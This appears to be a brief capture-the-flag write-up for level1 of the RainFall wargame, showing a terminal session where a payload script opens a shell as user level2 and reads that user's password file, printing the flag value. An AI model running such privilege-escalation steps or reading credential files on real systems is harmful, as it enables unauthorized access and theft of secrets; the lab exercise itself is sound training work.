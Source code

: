 Read the requirements in payload.sh, then simply execute it from anywhere, here I placed it at /tmp/payload.sh:

```sh
level1@RainFall:~$ /tmp/payload.sh 
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass                                       
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Nothing appears when executing the .sh besides the "Good... Wait what?" but you are indeed in a new shell.
*The reproduction made on source.c will probably have a completely different address tho, then you can replace ADDRESS_LITTLE_ENDIAN variable in the payload.sh script. (See README.md to know how to find the new address)*